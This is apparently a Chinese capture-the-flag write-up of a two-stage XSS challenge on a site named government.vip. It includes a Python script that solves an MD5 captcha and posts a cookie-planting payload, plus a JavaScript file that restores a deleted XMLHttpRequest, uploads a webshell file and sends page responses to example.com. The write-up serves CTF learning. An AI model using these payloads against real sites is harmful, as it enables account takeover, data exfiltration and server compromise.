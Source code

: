 ## Complicated XSS

输入`admin.government.vip:8000`会跳转到`admin.government.vip:8000/login`进行登录，
登录后在`admin.government.vip:8000/`处，发现Cookie中的username字段会直接打到HTML页面上，这里可以进行二次XSS。
所以在原始payload中，要设置cookie如`username=<script src='http://example.com/xss.js'></script>;domain=.government.vip;path=/`来进行2次XSS，在`admin.government.vip:8000`下XSS就没有域限制。


原始payload脚本（第一次XSS）如下：
```py
def solve(cap):
    print 'cap: %s' % cap
    for i in xrange(1000000000):
        if hashlib.md5(str(i)).hexdigest()[:len(cap)] == cap:
            return str(i)

s = requests.session()
resp = s.get('http://government.vip/').text
resp = resp[resp.index(" === '")+len(" === '"):]
resp = resp[:6]
task = solve(resp)
data =  {"task": task, 'payload': '''
<script>
function createCookie(name,value,days) {
    if (days) {
        var date = new Date();
        date.setTime(date.getTime() + (days * 24 * 60 * 60 *1000));
        var expires = "; expires=" + date.toGMTString();
    }
    else {
        var expires = "";
    }
    document.cookie = name + "=" + value + expires + ";domain=.government.vip;path=/";
}
function eraseCookie(name) {
    createCookie(name,"",-1);
}
eraseCookie("username");
// remember to ENCODE and REPLACE "BASE64_ENCODE_HERE(.)" in the payload below, or the end of script tag in the payload string makes trouble
document.cookie=atob(BASE64_ENCODE_HERE('''username=<script src='http://example.com/xss.js'></script>;domain=.government.vip;path=/'''));
document.write('<iframe src="http://admin.government.vip:8000/" id="i"></iframe>');
</script>
''', 'submit':'submit'}
print s.post('http://government.vip/run.php', data=data, headers={'Content-Type':'application/x-www-form-urlencoded'}).text
```


`http://example.com/xss.js`要做的事情如下：
1. 恢复cookie中的username为admin
2. 因为`admin.government.vip:8000/`中`delete XMLHttpRequest`，我们可以从`<iframe src='/login' id='iij'></iframe>`中的contentWindow中把XMLHttpRequest恢复出来。
3. 使用恢复后的XMLHttpRequest，用恢复后的Cookie: username=admin把`<iframe src='/' id='ii'></iframe>`的页面内容回传。


回传后，发现admin的`admin.government.vip:8000/`页面不是flag而是一个让你上传webshell的表单，那么接下来我们只需要把第三步改成：
3. 使用恢复后的XMLHttpRequest，用恢复后的Cookie: username=admin，往`/upload`POST一个webshell文件（其实什么内容都可以），把response回传。


`http://example.com/xss.js`如下：
```javascript
//'username=admin;domain=.government.vip;path=/'
document.cookie=atob('dXNlcm5hbWU9YWRtaW47ZG9tYWluPS5nb3Zlcm5tZW50LnZpcDtwYXRoPS8=');
document.write("<iframe src='/login' id='iij'></iframe><iframe src='/' id='ii'></iframe>");

function send2(x, p) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
    };
    xhr.open('POST', 'http://example.com/record.php?'+p+'='+btoa(x), true);
    xhr.send(null);
}

setTimeout(function(){
    var arr = ["Function","eval","alert","XMLHttpRequest","Proxy","Image","postMessage"];
    for(var i in arr) {
        i = arr[i];
        window[i] = document.getElementById('iij').contentWindow[i];
    }

    function send(url, data) {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", url, true);
        xhr.onreadystatechange = function () {
            if (xhr.readyState == 4)
                send2(xhr.responseText, 'resp');
        };
        var d = new FormData();
        d.append('file', new Blob([data]), 'agrnhte.php');
        xhr.send(d);
    }
    
    send("http://admin.government.vip:8000/upload", 'aaa');
}, 1000);

```


其实过程中遇到了玄学问题，比如它回传个400 BAD REQUEST什么就不谈了...
